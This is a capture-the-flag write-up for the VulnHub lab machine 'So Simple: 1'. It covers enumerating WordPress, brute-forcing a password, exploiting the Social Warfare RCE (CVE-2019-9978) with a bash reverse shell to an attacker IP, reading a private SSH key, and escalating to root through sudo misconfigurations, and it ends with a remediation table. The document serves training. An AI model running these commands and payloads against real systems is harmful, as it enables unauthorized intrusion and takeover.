




# So Simple: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.56.105 (host-only) |
| **Difficulty** | Beginner |
| **OS** | Linux |
| **Root Flag** | /root/flag.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/so-simple-1,515/) |

## Attack Summary

nmap → gobuster → WordPress → wpscan (user: max, plugin: Social Warfare) → brute (max:opensesame) → Social Warfare RCE → shell → SSH key → sudo service PATH traversal → writable script → root

## Methodology

1. Network discovery and port scan
2. WordPress enumeration with wpscan
3. Password brute force
4. Social Warfare plugin RCE (CVE-2019-9978)
5. Privilege escalation via sudo service + writable script

---

## Step 1: Network Discovery

```bash
sudo arp-scan -l
nmap -sV -sC -p- 192.168.56.105
```

Open ports: 22 (SSH), 80 (HTTP — WordPress).


---

## Step 2: WordPress Enumeration

```bash
gobuster dir -u http://192.168.56.105/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

WordPress installation confirmed at `/`.

Enumerate users and plugins:

```bash
wpscan --url http://192.168.56.105/ -e u,ap --plugins-detection aggressive
```

Found: user **max**, plugin **Social Warfare 3.5.0** (vulnerable).



---

## Step 3: Password Brute Force

```bash
wpscan --url http://192.168.56.105/ -U max -P /usr/share/wordlists/rockyou.txt
```

Password found: **max : opensesame**

---

## Step 4: Social Warfare Plugin RCE (CVE-2019-9978)

Create a payload file on the attacker:

```bash
# payload.txt content:
system("bash -c 'bash -i >& /dev/tcp/192.168.56.102/8080 0>&1'");
```

Serve it:

```bash
python3 -m http.server 80
```

Start listener:

```bash
nc -lvnp 8080
```

Trigger the RCE:

```
GET /wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.56.102/payload.txt
```

Shell received as `www-data`.



---

## Step 5: Upgrade to SSH

Find max's private key:

```bash
cat /home/max/.ssh/id_rsa
```

Copy to attacker, set permissions, and SSH in:

```bash
chmod 600 max_id_rsa
ssh -i max_id_rsa max@192.168.56.105
```

---

## Step 6: Privilege Escalation — sudo → steven → root

```bash
sudo -l
# User max may run: /usr/sbin/service as steven (NOPASSWD)
```

Abuse `service` for PATH traversal to steven:

```bash
sudo -u steven /usr/sbin/service ../../bin/bash
id
# uid=1001(steven)
```

Check steven's sudo rights:

```bash
sudo -l
# User steven may run: /opt/tools/server-health.sh as root (NOPASSWD)
```

The script does not exist. Create it:

```bash
mkdir -p /opt/tools
cat > /opt/tools/server-health.sh << 'EOF'
#!/bin/bash
bash
EOF
chmod +x /opt/tools/server-health.sh
sudo /opt/tools/server-health.sh
id
# uid=0(root)
```



```bash
cat /root/flag.txt
```



---

## Lessons Learned

1. **Social Warfare 3.5.0** has a pre-auth RCE via the `swp_debug` parameter — keep plugins updated
2. **SSH keys readable by www-data** allow lateral movement even without the user's password
3. **sudo service PATH traversal** (`../../bin/bash`) gives a shell as the target user
4. **Missing sudo script** that any user can create = instant root escalation

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Social Warfare RCE (CVE-2019-9978) | Upgrade plugin to ≥ 3.5.3 |
| Readable SSH private key | `chmod 600 ~/.ssh/id_rsa`; never leave keys world-readable |
| sudo service PATH traversal | Restrict `service` via AppArmor or use absolute paths in sudoers |
| Missing sudo script writable by user | Pre-create scripts with root ownership; validate paths in sudoers |
